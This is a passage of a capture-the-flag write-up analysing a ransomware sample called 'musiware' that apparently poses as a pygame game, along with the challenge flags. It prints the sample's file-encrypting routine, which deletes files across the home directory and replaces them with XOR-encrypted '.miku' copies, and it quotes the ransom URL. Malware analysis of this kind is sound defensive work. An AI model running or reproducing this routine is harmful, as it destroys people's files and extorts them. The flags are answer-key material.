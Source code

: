         else:
            font = pygame.font.Font(resource_path('assets/sans.ttf'), 50)
            text = font.render(' Uh Oh!! ', True, RED)
            screen.blit(text, [210, 10])
            font = pygame.font.Font(resource_path('assets/sans.ttf'), 70)
            text = font.render('You Failed!', True, RED)
            screen.blit(text, [125, 250])



It's looking for a score of exactly `MAX` to win.

Flag:`10000000000000000000000000000000000000000000000000000000000000000`

### #5: URL

*If we even had a chance of beating this malware. Where is the URL it
would of given us?*

In the `end_setup` function, it prints the URL:



    font = pygame.font.Font(resource_path('assets/sans.ttf'), 30)
    text = font.render('Get the Decryption Application at:', True, RED)
    screen.blit(text, [50, 250])
    font = pygame.font.Font(resource_path('assets/sans.ttf'), 20)
    text = font.render('http://musiware.threatsims.com/5963decodenow5345/',



**Flag: `http://musiware.threatsims.com/5963decodenow5345/`**

### #6: Key

*It seems that the maker of this malware had somewhat of a sense of
humor. What is used to create entropy for the encryption?*

The first function called was `fun_enforcer()`, which is defined as:



    def fun_enforcer():
        img = open(resource_path('assets/images/miku.png'), 'rb').read() * 50
        home = os.path.expanduser('~')
        for root, dirs, files in os.walk(home, topdown=False):
            for name in files:
                if not name == 'musiware.exe':
                    if 'assets' in root:
                        continue
                    fileN = os.path.join(root, name)
                    try:
                        fileD = open(fileN, 'rb').read()
                        os.remove(fileN)
                        result = bytes((a ^ b for a, b in zip(fileD, img)))
                        f = open(fileN + '.miku', 'wb')
                        f.write(result)
                        f.close()
                    except:
                        continue
